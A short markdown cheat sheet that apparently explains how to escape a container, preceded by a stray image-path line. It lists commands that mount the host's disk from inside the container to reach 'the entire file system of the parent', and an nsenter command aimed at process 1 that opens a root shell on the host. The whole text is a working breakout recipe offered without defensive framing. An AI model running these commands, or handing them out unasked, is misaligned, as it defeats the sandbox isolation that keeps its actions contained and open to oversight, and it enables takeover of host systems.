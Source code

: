 * `mkdir -p /mnt/meme`
* find your local file system with `fdisk -l`
* `mount /dev/<device> /mnt/meme`
* you can now access the entire file system of the parent

* alternatively to get a root shell on the parent
* `nsenter --target 1 --mount --uts --ipc --net --pid -- bash`